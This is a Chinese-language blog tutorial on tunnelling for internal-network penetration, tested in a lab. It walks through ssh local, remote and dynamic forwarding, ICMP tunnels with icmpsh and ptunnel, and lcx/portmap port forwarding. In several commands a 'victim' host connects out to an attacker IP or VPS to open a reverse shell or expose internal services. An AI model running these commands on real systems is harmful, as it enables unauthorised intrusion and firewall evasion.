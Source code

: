 ```yaml
---
layout:     post
title:      内网渗透 常用的隧道代理技术
subtitle:   简单整理一下工具的使用
date:       2020-10-21
author:     BY Diego
header-img: /img/wenzhang/post-代理技术.jpg
catalog: true
tags:
    - 渗透
---
```



### 1. ssh 隧道



#### 本地转发



假设存在 webserver与内网主机可以互通，攻击者可与webserver互通  但攻击者无法访问内网主机，且可以控制webserver 的ssh， 如下



![BC9NB4.png](https://s1.ax1x.com/2020/10/21/BC9NB4.png)





假设 攻击机无法与 192.168.190.128 不通（测试环境是通的 偷懒



`ssh -CfNg -L 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`

192.168.190.128 充当webserver 129充当内网主机

129上的服务如下

![BC9cuD.png](https://s1.ax1x.com/2020/10/21/BC9cuD.png)

`攻击者执行  ssh -CfNg -L 8888:192.168.190.129:80  diego@192.168.190.128`

* -C  压缩传输

* -f ssh后台传输不占用当前shell

* -N 建立连接，但看不到会话

* -g 允许远程主机连接本地用于转发端口

* -L 本地转发

![B9TKu6.png](https://s1.ax1x.com/2020/10/21/B9TKu6.png)



访问本地 8888端口

![BCC8IA.png](https://s1.ax1x.com/2020/10/21/BCC8IA.png)





流量情况 (跳板机抓包分析)

总体流量

![BCPky8.png](https://s1.ax1x.com/2020/10/21/BCPky8.png)



下两图 可以看出 攻击者与webserver 是依靠ssh进行通信，而webserver 与 内网主机是正常通信

![BCPFQf.png](https://s1.ax1x.com/2020/10/21/BCPFQf.png)



![BCPiSP.png](https://s1.ax1x.com/2020/10/21/BCPiSP.png)



#### 远程转发



将本地的端口流量转发到目标的端口上 与本地转发相反

`ssh -CfNg -R 本地端口:内网主机地址:目标端口  跳板机用户名@跳板机地址`



#### 动态转发

`ssh -CfNg -D 8888  跳板机用户名@跳板机地址`

设置socks代理



### 2. ICMP 隧道  

#### icmpsh

受害机 执行如下命令

`icmpsh.exe -t 攻击者ip -d 500 -b 30 -s 128`



![BpStPK.png](https://s1.ax1x.com/2020/10/20/BpStPK.png)



攻击机器

`sysctl -w net.ipv4.icmp_echo_ignore_all = 1`  关闭本地的icmp 以保证shell稳定性

`sudo python icmpsh_m.py  <source IP address> <destination IP address>`

![BpSU2D.png](https://s1.ax1x.com/2020/10/20/BpSU2D.png)



流量情况

![BpSN8O.png](https://s1.ax1x.com/2020/10/20/BpSN8O.png)



#### ptunnel

下载 `wget http://www.cs.uit.no/\~daniels/PingTunnel/PingTunnel-0.72.tar.gz`

解压 `tar -xzvf PingTunnel-0.72.tar.gz`

安装依赖 `sudo apt install libpcap-dev`

安装 `sudo make && sudo make install`



**将内网的服务映射到vps的端口上**

拓扑同 ssh 



内网主机80端口存在如下服务


![BCL1Re.png](https://s1.ax1x.com/2020/10/21/BCL1Re.png)



在web服务上执行如下命令

`ptunnel -x diego`

![BCTpsx.png](https://s1.ax1x.com/2020/10/21/BCTpsx.png)



vps 上执行

`ptunnel -p web服务器ip -lp 映射到本地的端口  -da 内网主机ip -dp  内网服务端口 -x diego`

![BCbeSJ.png](https://s1.ax1x.com/2020/10/21/BCbeSJ.png)



修改火狐的配置 

`network.security.ports.banned.override` 值为对应端口

![BCLYqI.md.png](https://s1.ax1x.com/2020/10/21/BCLYqI.md.png)



访问本地的6000 端口

![BCL3xH.png](https://s1.ax1x.com/2020/10/21/BCL3xH.png)

### 3. lcx 与 portmap 端口转发



下载地址 http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip





#### 本地端口转发



**windows**

绕过防火墙限制某些端口通信，可以转发到其他端口

情景如下 ,服务只绑定在127.0.0.1上 公网ip 无法访问到服务



![BpWNbd.png](https://s1.ax1x.com/2020/10/20/BpWNbd.png)



仅本地可以访问

![BpWaVA.png](https://s1.ax1x.com/2020/10/20/BpWaVA.png)



公网ip 无法访问

![BpWtDH.png](https://s1.ax1x.com/2020/10/20/BpWtDH.png)



执行 `lcx.exe -tran 80 127.0.0.1 8080 ` 将端口转发到80

![BpWYKe.md.png](https://s1.ax1x.com/2020/10/20/BpWYKe.md.png)





连接状态 ： **80绑定在0.0.0.0上** 因此局域网可以访问



![BpfPqH.png](https://s1.ax1x.com/2020/10/20/BpfPqH.png)



![BpWGvD.png](https://s1.ax1x.com/2020/10/20/BpWGvD.png)





**linux 下**



`sudo ./portmap -m 1 -p1 81 -h2 127.0.0.1 -p2 80 `

[![B9RC28.png](https://s1.ax1x.com/2020/10/21/B9RC28.png)](https://imgchr.com/i/B9RC28)

#### 远程端口转发



windows下：

受害机器

`lcx.exe -slave 公网ip  port  127.0.0.1 8080`

vps 上执行 `lcx.exe  -listen port  5555`

访问 vps:5555 即可访问到内网服务





**linux - liunx**：

受害主机

`./portmap -m 3 -h1 vpnip -p1 8007 -h2 127.0.0.1 -p2 80`

![B9sgPO.png](https://s1.ax1x.com/2020/10/21/B9sgPO.png)



自己的vps

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`

![B9sDq1.png](https://s1.ax1x.com/2020/10/21/B9sDq1.png)



受害内网服务

![B9sya6.png](https://s1.ax1x.com/2020/10/21/B9sya6.png)



被映射到自己vps 8008端口

![B9ssVx.png](https://s1.ax1x.com/2020/10/21/B9ssVx.png)



**linux - windows**

受害着为**windows**时

windows 执行

`lcx.exe -slave 公网ip  port  127.0.0.1 80`

远程执行

`./portmap -m 2 -p1 8007 -h2 vpsip  -p2 8008`



![BPPt5d.md.png](https://s1.ax1x.com/2020/10/21/BPPt5d.md.png)

